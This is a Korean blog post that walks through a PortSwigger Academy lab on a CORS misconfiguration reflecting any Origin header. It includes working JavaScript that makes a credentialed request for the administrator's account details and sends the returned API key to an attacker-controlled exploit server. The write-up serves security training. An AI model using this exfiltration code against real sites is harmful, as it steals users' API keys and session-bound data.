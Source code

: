 ```yaml
---
layout: post
title: "Burp Academy-CORS 취약점: CORS vulnerability with basic origin reflection"
categories: [보안취약점, Burp Academy]
tags: [보안취약점, Burp Academy, CORS취약점]
toc: true
---
```


# 개요
- [CORS]({% post_url 2023-06-28-CORS-basic %})에 관련된 취약점이다. 
- CORS 취약점에 대한 설명은 [여기]({% post_url 2023-06-27-burp-academy-cors %}) 
- 문제 주소: : https://portswigger.net/web-security/cors/lab-basic-origin-reflection-attack
- 난이도: APPRENTICE (쉬움)

# 문제 설명
- 서버에는 클라이언트가 보낸 Origin헤더를 무조건 신뢰하는 CORS 취약점이 있다. 
- 이 취약점을 이용해서 서버 관리자의 API Key를 얻어내는 자바스크립트 코드를 exploit server를 이용해서 서버로 보낸다. 
- 얻어낸 서버 관리자의 API Key를 제출하면 문제가 풀린다. 

```
This website has an insecure CORS configuration in that it trusts all origins.

To solve the lab, craft some JavaScript that uses CORS to retrieve the administrator's API key and upload the code to your exploit server. The lab is solved when you successfully submit the administrator's API key.

You can log in to your own account using the following credentials: wiener:peter
```

# 풀이 

## CORS 취약점이 있는 곳을 찾기 
문제에서 주어진 계정으로 로그인을 해본다. 그러면 로그인 후의 화면에서 apiKey가 표시되는 것을 볼 수 있다. 

![apiKey확인](/images/burp-academy-cors-1-1.png)

apiKey를 획득하는 요청을 Burp Proxy로 관찰해보면 보면 `GET /accountDetails` 요청인 것을 알 수 있다. Burp Repeater를 사용해서 이 요청에 Origin헤더를 추가해서 보내본다. 그러면 Origin 헤더에 설정한 값을 Access-Control-Allow-Origin 응답 헤더에 그대로 설정해서 응답해주는 것을 알 수 있다. 이 것으로 CORS 취약점이 있는 곳을 확인했다. 

![CORS취약점 확인](/images/burp-academy-cors-1-2.png)

## exploit 코드 생각 
다음 코드를 저장하고 Deliver exploit to victim 버튼을 눌러 사이트 관리자에게 전달한다. 

```html
<html>
    <body>
        <script>
var req = new XMLHttpRequest();
req.onload = reqListener;
req.open('get','https://0a3600380333e31c80bc30ad00f40024.web-security-academy.net/accountDetails',true);
req.withCredentials = true;
req.setRequestHeader("Origin", "https://exploit-0af4007403d8e3d680182fa601dd0050.exploit-server.net"); // 자바스크립트로 Origin 헤더는 수정할 수 없다. 그리고 이 코드가 실행되는 곳은 exploit서버이기 때문에 브라우저가 Origin헤더를 설정해준다. 따라서 이 코드는 의미가 없다. 
req.send();

function reqListener() {
   location='https://exploit-0af4007403d8e3d680182fa601dd0050.exploit-server.net/exploit?key='+this.responseText;
};
</script>
</body>
</html>
```

## 억세스 로그를 보고 apiKey를 확인
억세스 로그를 보면 다음과 같이 관리자의 억세스가 로그로 다수 확인된다. apiKey를 포함한 부분이 보인다. 

![관리자의 apiKey확인](/images/burp-academy-cors-1-3.png)

URL인코딩된 부분(%20)을 제외한 값을 문제 서버에 제출하면 문제가 풀린다. 

![풀이 성공](/images/burp-academy-cors-1-success.png)